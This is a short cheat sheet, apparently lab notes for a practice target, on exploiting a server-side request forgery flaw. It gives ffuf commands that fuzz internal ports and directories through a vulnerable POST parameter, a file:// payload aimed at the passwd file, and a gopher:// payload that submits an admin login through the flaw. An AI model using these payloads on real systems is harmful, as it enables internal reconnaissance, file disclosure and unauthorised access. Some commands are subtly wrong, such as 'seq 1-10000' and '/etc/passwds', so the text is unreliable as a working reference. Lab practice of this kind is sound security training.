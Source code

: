 FFUF to fuzz ports using SSRF. Make a port list like 
```CLI
seq 1-10000> ports.txt
```

## Payloads
```CLI
ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"
```


#### Directory fuzzing

```CLI
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

#### Local File Inclusion (LFI)

```
file:///etc/passwds
```

## Restricted Logins

To send POST request via SSRF to login pages, you need to convert the http request to gopher.

1) Grab the HTTP request:
```HTTP
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```

2) Then you have to conver to the gopher version for HTTP:
```CLI
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

3) Then because the gopher payload is being used within an http payload, it will have to be url encoded one more time then can be used as a payload like dateserver=<payload>